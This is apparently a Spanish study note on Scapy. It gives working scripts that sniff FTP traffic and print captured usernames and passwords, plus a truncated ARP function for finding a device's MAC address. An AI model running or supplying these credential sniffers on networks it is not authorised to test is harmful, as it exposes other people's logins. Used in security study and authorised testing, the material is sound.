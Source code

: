 ```python

def extract_ftp_credentials(packet):
    if packet.haslayer(Raw):
        payload = packet[Raw].load.decode('utf-8', errors='ignore')
        if 'USER' in payload or 'PASS' in payload:
            print(payload.strip())

# Captura 10 paquetes FTP (puertos 20 y 21)
packets = sniff(filter="tcp port 21", count=9999)

# Extraer y mostrar los campos de usuario y contraseña
for packet in packets:
    extract_ftp_credentials(packet)
```
![[Pasted image 20240531103448.png]]
O podemos complicar un poco el código:

- if paquete.haslayer(TCP) -> Verifica si el paquete tiene una capa TCP.
- if tcp_layer.dport == 21 or tcp_layer.sport == 21 -> Filtra por el puerto FTP, dport destination y sport source.
- datos = bytes(tcp_layer.payload).decode('utf-8', errors='ignore') -> Convierte los datos del paquete en una cadena de texto.
- store=0 -> No almacena paquetes en memoria

```python
from scapy.all import sniff, TCP

def mostrar_paquete(paquete):
    if paquete.haslayer(TCP):
        tcp_layer = paquete.getlayer(TCP)
        if tcp_layer.dport == 21 or tcp_layer.sport == 21:
            datos = bytes(tcp_layer.payload).decode('utf-8', errors='ignore')
            if "USER" in datos or "PASS" in datos:
	                print(f"Paquete FTP Capturado: {paquete.summary()}")
	                print(f"Datos: {datos.strip()}")

sniff(iface="eth0", prn=mostrar_paquete, filter="tcp port 21", store=0)
```
![[Pasted image 20240527212048.png]]
**Consultar la MAC de una IP**
Podemos conocer la MAC de cualquiera de las IPs que se encuentren en nuestra red:
```python
from scapy.all import ARP, Ether, srp

def get_mac(ip):
    # Crear una solicitud ARP
    arp_request = ARP(pdst=ip)
    # Crear un marco Ethernet para envolver la solicitud ARP
    ether = Ether(dst='ff:ff:ff:ff:ff:ff')
    # Combinar el marco Ethernet con la solicitud ARP
    arp_request_packet = ether/arp_request

    # Enviar el paquete ARP y obtener la respuesta
    result = srp(arp_request_packet, timeout=2, verbose=False)[0]

    # Verificar si se recibió una respuesta
    if result:
        # Obtener la dirección MAC de la respuesta
        return result[0][1].hwsrc
    else:
        return None

# Ejemplo de uso
```